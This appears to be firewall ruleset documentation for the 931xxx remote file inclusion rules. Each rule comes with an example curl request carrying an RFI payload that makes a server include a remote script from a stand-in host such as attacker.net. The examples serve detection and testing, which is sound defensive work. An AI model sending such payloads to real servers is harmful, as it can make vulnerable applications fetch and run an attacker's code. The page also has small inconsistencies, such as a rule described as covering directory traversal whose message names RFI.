 ```yaml
---
title: "Core Ruleset: 931xxx"
sidebar_label: 931xxx
---
```


Rules with the 931xxx prefix protect web applications from remote file inclusion attempts that can be made by attackers.

## Paranoia Level 1 (default)

<details>
<summary id="931100">Rule: 931100</summary>

Protects web applications from directory traversal attacks. This will inspect request args, headers and files to ensure that no directory traversal attempts are made by the client.

**Message:** `Possible Remote File Inclusion (RFI) Attack: URL Parameter using IP Address`

**Example:**

```
curl --request GET \
  --url 'http://localhost:8088/?q=https%3A%2F%2F1.1.1.1%2Findex.php'
```

</details>

<details>
<summary id="931110">Rule: 931110</summary>

Prevents the use of include statements in a request payload.

**Message:** `Possible Remote File Inclusion (RFI) Attack: Common RFI Vulnerable Parameter Name used w/URL Payload`

**Example:**

```
curl --request GET \
  --url 'http://localhost:8088/?q=include(%22ftp%3A%2F%2F1.1.1.1%2Ftest.php%22)'
```

</details>

<details>
<summary id="931120">Rule: 931120</summary>

Restricts the use of file protocols with a dangling question mark. This can be used by an attacker to trick a web server into including a file from a remote location.

**Message:** `Possible Remote File Inclusion (RFI) Attack: URL Payload Used w/Trailing Question Mark Character (?)`

**Example:**

```
curl --request GET \
  --url 'http://localhost:8088/?q=https%3A%2F%2Fattacker.net%2Ftest.php%3F'
```

</details>

## Paranoia Level 2

<details>
<summary id="931130">Rule: 93113  0</summary>

Some application packages will implicitly interpret `url:file://` as a local address and include them without checking existence locally.

**Message:** `Possible Remote File Inclusion (RFI) Attack: Off-Domain Reference/Link`

**Example:**

```
curl --request GET \
  --url 'http://localhost:8088/?q=uri%3Ahttps%3A%2F%2Fattacker.net%2Ffile.jar'
```

</details>


## Paranoia Level 3

This module does not define checks for paranoia level 3.

## Paranoia Level 4

This module does not define checks for paranoia level 4.
